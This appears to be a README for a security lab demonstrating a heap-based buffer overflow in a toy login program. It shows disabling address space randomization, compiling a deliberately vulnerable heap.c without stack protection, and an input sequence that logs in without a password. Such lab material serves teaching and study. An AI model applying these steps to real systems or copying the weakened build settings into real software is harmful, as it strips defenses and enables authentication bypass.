 # Buffer Overflow Vulnerability

The heap based attack can be demonstrated by running following steps. Let us go through them.

## Initial Setup of the Machine

To make our attack easier, we first need to disable address space
randomization, a defense against buffer overflows making guessing addresses in
the heap and stack more difficult.  To do so, we simply need to run the
following command under root privileges:

```
sudo sysctl -w kernel.randomize_va_space=0
```

A confirmation of the variable's value is printed `kernel.randomize_va_space = 0`
by the terminal. 


## Vulnerable Program

The vulnerable program is provided in the [heap.c](heap.c) file.  

```
gcc -o heap -z execstack -fno-stack-protector heap.c
```

## Exploiting the Vulnerability: Demonstration of the Buffer Overflow Attack

To demonstrate the buffer flow attack, we run the following commands:

```
./heap
```

This simply compiles and runs the [heap.c](heap.c) file. 
After this, we see the effect of heap_based overflow helping us login without actually entering the password.
```
auth bufferoverflow.net
login # not logged in yet
login 234 # not logged in yet
service heapoverflow.net
login # logged in now
service 23
login # logged in now
```






